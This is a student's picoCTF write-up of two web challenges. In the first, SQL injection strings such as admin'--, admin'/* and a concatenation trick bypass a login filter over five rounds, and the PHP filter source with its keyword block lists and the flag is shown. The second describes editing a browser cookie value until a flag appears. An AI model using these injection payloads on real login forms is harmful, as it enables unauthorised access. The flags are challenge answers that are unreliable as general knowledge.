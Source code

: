 # 1. Web Gauntlet

As soon as i opened the challenge  i got links of 2 websites 1 had the login page and the other page had a set of instructions that apparently changed after each round.
### Round 1:`admin'--`

filters: `or`

The `'` character acts a string delimiter and escapes the username string and it allows any other command to be run. Here `--` is a comment, which comments out `AND password=''`. Which means, any password will work.  

### Round 2: `admin'/*`

filters: `or like and = --`

As `--` was filtered out, we can use `/*` as an alternative to comment out the rest of the query .

### Round 3: `admin'/*`

filters: `or and = like > < --`

This injection string functions same as above. 

### Round 4: `adm'||'in/*`

filters: `or and = like > < -- admin`

Here, the word `admin` was blocked, so what I can do is, break it into two parts and concatenate it using the relevant operators. 
`||` is used to concatenate two strings.   

### Round 5: `adm'||'in/*`

filters: `or and = like > < -- admin union`

Same as above 

This is what I got in the `http://shape-facility.picoctf.net:61909/filter.php` after completing all 5 rounds: 

```<?php
session_start();

if (!isset($_SESSION["round"])) {
    $_SESSION["round"] = 1;
}
$round = $_SESSION["round"];
$filter = array("");
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($round === 1) {
    $filter = array("or");
    if ($view) {
        echo "Round1: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 2) {
    $filter = array("or", "and", "like", "=", "--");
    if ($view) {
        echo "Round2: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 3) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--");
    // $filter = array("or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round3: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 4) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "admin");
    // $filter = array(" ", "/**/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round4: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 5) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "union", "admin");
    // $filter = array("0", "unhex", "char", "/*", "*/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round5: ".implode(" ", $filter)."<br/>";
    }
} else if ($round >= 6) {
    if ($view) {
        highlight_file("filter.php");
    }
} else {
    $_SESSION["round"] = 1;
}

// picoCTF{y0u_m4d3_1t_79a0ddc6}
?>
```

# Flag: `picoCTF{y0u_m4d3_1t_79a0ddc6}`



# 3.Cookies


This challenge was rather easier but i feel this is not the right way to do it but anyways, I'll explain my complete thought process, so after clicking on the link I got the following web page opened:


Then I just started trying filling in input, wrote `snickerdoodle` first printed out the following:


Then tried a few more ccokie derivatives trying to get to the right one but all were invalid ,then i decide to click inspect->Application->Cookies
after seeing a table with name written and a number in front of it i double clicked on that bar and edited the value to 0, which brought me back to the original page
after which i figured out that depending on the number contents on my screen would change.
i tried  0,10,20 numbers in this pattern and i found out that by putting 30 i would get cookie name as invalid so i kept trying and at number 18 i found out the contents on my screen revealed the flag



# Flag
`picoCTF{3v3ry1_l0v3s_c00k135_96cdadfd}`


